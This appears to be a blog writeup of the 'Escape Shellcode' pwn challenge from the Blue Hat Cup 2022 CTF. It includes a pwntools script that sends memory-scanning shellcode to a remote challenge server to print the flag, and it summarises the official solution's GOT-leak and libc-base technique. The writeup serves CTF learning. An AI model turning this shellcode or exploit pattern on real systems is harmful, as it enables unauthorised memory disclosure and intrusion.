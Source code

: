```yaml
---
title: "PWN Writeup Reenactment on Blue Hat Cup 2022"
date: 2022-07-16
tags: ['CTF', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```


Just recording the PWN challenge from Blue Hat Cup a few days ago. I won't be reenacting the other Misc and forensic challenges as I didn't quite understand them during the competition and relied heavily on my teammates.



# Escape Shellcode

I directly wrote a simple shellcode and relied on luck to go through (specifically by placing it in the memory page where `/flag` is located and then outputting the result).

```python
from pwn import *
context.arch = 'amd64'
context.os = 'linux'
context.log_level = 'DEBUG'

# sh = process(['escape_shellcode'])
sh = remote("39.107.108.120", 44431)
shellcode = """
mov r8, 0x557000000120

run:
    mov rax, 1
    mov rdi, 1
    xor rdx, rdx
    mov rdx, 0x10000
    mov rsi, r8
    syscall
    cmp al, 0xf2
    je looper
    
looper:
    add r8, 0x10000
    jmp run

"""
sh.sendline(asm(shellcode))
sh.interactive()
```

The official writeup directly read the flag from the `.bss` section. While I understood the principle when debugging locally, I didn't know where these values came from. Essentially, it involved obtaining the `prctl@got.plt` address and storing it in `R8`. The process included finding out how to fetch this address (by locating the pointer `[rip + 0xfb5 - 7]` through `RIP`, then adding `0x3e8` to reach the `@got.plt`), and then recording the actual address in `R9`. Subsequently, using `R9` to store `libc_base`, calculating the address of `environ` to find the program's base address in order to read the `.bss` section's `flag`.
